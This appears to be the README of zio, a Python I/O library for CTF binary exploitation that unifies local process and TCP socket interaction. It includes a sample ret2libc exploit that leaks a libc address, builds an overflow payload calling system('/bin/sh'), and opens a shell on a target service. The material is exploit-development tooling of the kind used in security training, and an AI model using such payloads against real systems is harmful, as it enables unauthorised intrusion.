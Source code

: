 
# zio

[![Build Status](https://travis-ci.org/zTrix/zio.png)](https://travis-ci.org/zTrix/zio) [![support-version](https://img.shields.io/pypi/pyversions/zio)](https://img.shields.io/pypi/pyversions/zio)

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

is_local = True

if is_local:
    io = zio('./buggy-server')            # used for local pwning development
else:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.read_until(b'Welcome Banner')
io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## Advantage

 - Self contained single file installation, no extra dependency required. Copy it as you go and fire with no pain even without internet access.
 - Support both python2 and python3, no need to worry about the python version installed on some weired jump server provided by unknown.
 - Easy to learn and use.

If you want advanced features such as ELF parsing and more, try [pwntools](https://github.com/Gallopsled/pwntools).

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Working Environment

 - Linux or OSX
 - Python 2.6, 2.7, 3.x

for windows support, a minimal version(socket-io only) [mini_zio](./mini_zio.py) is provided.

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/zTrix/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip install zio
```

## Examples
 
```python
from zio import *

is_local = True

if is_local:
    io = zio('./buggy-server')
else:
    io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline(b'add ' + str(i))
    io.read_until(b'>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

### bytes vs unicode

zio works at `bytes` level. All params and return value should be bytes. (Although some methods support unicode for compatibility and fault tolerance)

The recommended practice is to use b'xxx' everywhere, which is supported by both python2 and python3 without ambiguity.

### about line break and carriage return

Just don't read b'\n' or b'\r', use `read_line()` instead

### Play with cmdline

Act like netcat

```
$ printf 'GET / HTTP/1.0\r\n\r\n' | ./zio.py baidu.com 80
```

Unhex

```
$ echo '3334350a' | ./zio.py -d unhex -w none -r none -i pipe -o pipe --show-input=0 cat
345
```

hexcat some file

```
$ cat somefile | ./zio.py -e hex -w none -r none -i pipe -o pipe --show-input=0 cat
```

show file in string repr

```
$ cat somefile | ./zio.py -e repr -w none -r none -i pipe -o pipe --show-input=0 cat
```

log vim key sequences and underlying io

```
$ zio --debug=zio.log vim
```

### Other fun usage

Talk with vim using code.

```
In [1]: from zio import *

In [2]: io = zio('vim', stdin=TTY, stdout=TTY)

In [3]: io.writeline(b'ihello world')
ihello world
Out[3]: 13

In [4]: io.writeline(b'\x1b:w hand_crafted_vim_file.txt')
w hand_crafted_vim_file.txt
Out[4]: 30

In [5]: io.writeline(b':q')
:q
Out[5]: 3

In [6]: io.exit_status()
Out[6]: 0

In [7]: !cat hand_crafted_vim_file.txt
hello world
```

You can even talk with vim for prefix and then interact by hand to continue normal action.

## Thanks (Also references)

 - [pexpect](https://github.com/pexpect/pexpect) borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/

[zio]:https://github.com/zTrix/zio
